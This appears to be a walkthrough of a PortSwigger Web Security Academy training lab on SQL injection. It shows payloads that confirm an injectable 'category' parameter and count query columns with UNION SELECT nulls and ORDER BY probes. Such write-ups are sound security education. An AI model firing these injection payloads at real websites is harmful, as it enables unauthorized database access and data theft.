

# Write-up: SQL injection UNION attack, determining the number of columns returned by the query @ PortSwigger Academy


This write-up for the lab *SQL injection UNION attack, determining the number of columns returned by the query* is part of my walk-through series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  
Python script (manual payload): [script_manual.py](script_manual.py)

## Lab description



## Query

The query used in the lab will look something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

### Confirm injectable argument

The category-filtering works based on the URL argument `category`. First I need to confirm that this argument is injectable by creating an error.

The normal argument is, for example, `/filter?category=Accessories`. Start by injecting a single quote at the end: `/filter?category=Accessories'`.

--> This result in an Internal Server Error by the application as the SQL query is invalid now and will look like this, having an illegal single quote at the end:

```sql
SELECT * FROM someTable WHERE category = 'Accessories''
```

Next, I try the good case by injecting something that results in a valid query: `/filter?category=Accessories%27%20or%201=1--`. This results in a query like this, returning all rows and commenting out the erroneous single quote and anything that might come after:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' or 1=1--'
```

It returns the full listing, basically the same content as if no filter was used. This is an indication that whatever would come afterward and is commented out does not interfere with the result.

### Count columns by UNION SELECT

In a UNION, the result sets need to contain the same number of columns. Injecting `' UNION (select null)--` will produce a server error.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null)--'
```

I use repeated calls, each time increasing the number of 'nulls'. The correct column count can be found by injecting `' UNION (select null, null, null)--`. Therefore, this query is valid:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null, null, null)--'
```

Now I know there are three columns and the lab updates to


### Count columns by ORDER BY

An alternative way to count the columns is with `ORDER BY`. Injecting `' ORDER BY 1--` will order the results by the first column of the result. Incrementing the value leads to an internal server error when using `' ORDER BY 4--` as the database is instructed to order by a column that does not exist. Thus the correct number of columns is 3.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' ORDER BY 4--
```
